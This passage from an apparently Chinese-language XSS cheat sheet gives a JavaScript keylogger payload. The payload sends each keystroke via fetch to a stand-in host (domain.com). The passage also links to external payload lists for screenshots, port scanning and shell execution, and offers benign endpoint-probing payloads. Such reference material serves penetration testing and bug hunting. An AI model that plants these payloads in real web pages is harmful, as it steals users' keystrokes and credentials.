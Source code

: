 ### JavaScript键盘记录器

另一种收集敏感数据的方法是设置JavaScript键盘记录器。

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### 其他方式

更多利用方法见 [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [使用XSS和HTML5画布截屏](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript端口扫描器](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [网络扫描器](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell执行](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [重定向表单](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [播放音乐](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## 识别XSS端点

此载荷在开发者控制台中打开调试器而不是触发弹出警报框。

```javascript
<script>debugger;</script>
```

现代应用可以通过[沙箱域][sandbox-domains]安全地托管各种用户生成的内容。

> 专门用来隔离用户上传的HTML、JavaScript或Flash小部件，确保它们无法访问任何用户数据。

[sandbox-domains]:https://security.googleblog.com/2012/08/content-hosting-for-modern-web.html

出于这个原因，最好使用`alert(document.domain)`或`alert(window.origin)`而非`alert(1)`作为默认的XSS载荷，以便了解XSS实际执行的范围。

更好的替换`<script>alert(1)</script>`的载荷：

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

虽然`alert()`对于反射型XSS来说很方便，但存储型XSS时它可能会成为一个负担，因为它需要关闭每个执行的弹窗，因此可以使用`console.log()`代替，在开发者控制台中显示消息（不需要任何交互）。

示例：

```html
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

参考：

- [Google Bughunter University - XSS in sandbox domains](https://sites.google.com/site/bughunteruniversity/nonvuln/xss-in-sandbox-domain)
- [LiveOverflow视频 - 不要使用alert(1)进行XSS](https://www.youtube.com/watch?v=KHwVjzWei1c)
- [LiveOverflow博文 - 不要使用alert(1)进行XSS](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
